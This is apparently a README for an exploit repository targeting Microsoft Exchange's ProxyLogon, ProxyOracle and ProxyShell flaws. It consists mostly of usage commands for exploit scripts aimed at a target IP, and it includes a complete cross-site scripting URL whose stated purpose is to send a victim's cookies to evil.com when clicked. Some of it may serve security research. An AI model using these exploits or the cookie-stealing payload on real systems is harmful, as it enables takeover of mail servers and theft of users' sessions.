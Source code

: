 # ProxyVulns

### ProxyLogon

`Usage: python3 26855.py 1.1.1.1`

![](img/26855.png)

### ProxyOracle

``` url
Once a victim clicks this link, evil.com will receive the cookies.

https://ews.lab/owa/auth/frowny.aspx?app=people&et=ServerError&esrc=MasterPage&te=\&refurl=}}};document.cookie=`X-AnonResource-Backend=@evil.com:443/path/any.php%23~1941962753`;document.cookie=`X-AnonResource=true`;fetch(`/owa/auth/any.skin`,{credentials:`include`});//
```

``` bash
pip3 install pycryptodome

Usage: python3 31196.py 1.1.1.1 'cdata=xxx; cadataTTL=yyy; ...'
```

![](img/31196.png)

### ProxyShell

``` bash
pip3 install pypsrp

Usage: python3 34473.py 1.1.1.1

Usage: python3 31207.py 1.1.1.1 [Local File Path] [UNC Absolute Path]
```

![](img/34473.png)

![](img/31207.png)

> Not working in some versions target(due to `/@gmail.com` path), maybe fix it later

### Others

- `Cookie: securitytoken=foobar`

- `/owa/calendar/foobar@exchange.local/foobar/owa14.aspx/.js`

## Reference

[ProxyLogon Vulnerability Analysis(Chinese)](https://hosch3n.github.io/2021/08/22/ProxyLogon%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)

https://docs.microsoft.com/en-us/exchange/architecture/mailbox-servers/recreate-arbitration-mailboxes?view=exchserver-2019

[ProxyOracle Vulnerability Analysis(Chinese)](https://hosch3n.github.io/2021/08/23/ProxyOracle%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)

https://github.com/mwielgoszewski/python-paddingoracle

[ProxyShell Vulnerability Analysis(Chinese)](https://hosch3n.github.io/2021/08/24/ProxyShell%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)